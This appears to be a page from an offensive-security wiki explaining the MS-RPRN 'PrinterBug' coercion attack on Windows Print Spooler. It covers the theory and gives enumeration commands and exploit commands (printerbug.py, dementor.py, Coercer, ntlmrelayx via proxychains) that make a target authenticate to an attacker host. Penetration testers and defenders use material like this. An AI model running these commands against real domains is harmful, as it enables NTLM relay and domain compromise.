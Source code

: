 # MS-RPRN abuse (PrinterBug)

## Theory

Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments ([more info on the finding](https://fr.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory/47)).

**The coerced authentications are made over SMB**. But MS-RPRN abuse can be combined with [WebClient abuse](webclient.md) to elicit incoming authentications made over HTTP which heightens [NTLM relay](../ntlm/relay.md) capabilities.

The "specific call" mentioned above is the `RpcRemoteFindFirstPrinterChangeNotificationEx` notification method, which is part of the MS-RPRN protocol. MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

{% hint style="info" %}
The attacker needs a foothold on the domain (i.e. compromised account) for this attack to work since the coercion is operated through an RPC call in the SMB `\pipe\spoolss` named pipe through the `IPC$` share.
{% endhint %}

## Practice

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) (Python).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) or [SpoolSample](https://github.com/leechristensen/SpoolSample) (C#). There are many alternatives available publicly on the Internet.

{% tabs %}
{% tab title="Enumerate" %}
#### rpcdump

We can check if the spooler service is available on a target using [rpcdump.py](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py) from impacket.

```bash
rpcdump.py $TARGET | grep -A 6 "spoolsv"
```

#### CrackMapExec

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (Python) can be used to check if the spooler service is running.

```bash
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> -M spooler
crackmapexec smb <TARGET> -u <USER> -p <PASSWORD> --local-auth -M spooler
```

#### SpoolerScanner

Check if the spooler service is available (Windows) using  [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) (Powershell)

```powershell
.\SpoolerScan.ps1
```
{% endtab %}

{% tab title="Exploit" %}
#### PrinterBug

Using [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) (python) we can trigger the spooler to authenticate against our cotrolled server.

```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```

#### Dementor

Using [dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) (python) we can trigger the spooler to authenticate against our cotrolled server.

```bash
python dementor.py -d $DOMAIN -u $USERNAME -p $PASSWORD $ATTACKER_IP $TARGET_IP
```

#### Coercer

Yet another alternative is to use the [Coercer](https://github.com/p0dalirius/Coercer/tree/master) tool (python) as follow.

```bash
# Coerce
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-protocol-name MS-RPRN -l $ATTACKER_IP -t $TARGET_IP

# Coerce a specific method
coercer coerce -u $USER -p $PASSWORD -d $DOMAIN --filter-method-name RpcRemoteFindFirstPrinterChangeNotificationEx -l $ATTACKER_IP -t $TARGET_IP
```
{% endtab %}

{% tab title="ntlmrelayx" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) and trigger the spooler service of a target via a SOCKS proxy.

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains printerbug.py -no-pass 'DOMAIN'/'USER'@'TARGET' 'ATTACKER HOST'
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Nota bene**: coerced NTLM authentications made over SMB restrict the possibilites of [NTLM relay](../ntlm/relay.md). For instance, an "unsigning cross-protocols relay attack" from SMB to LDAP will only be possible if the target is vulnerable to CVE-2019-1040 or CVE-2019-1166.
{% endhint %}

## Resources

{% embed url="https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/" %}
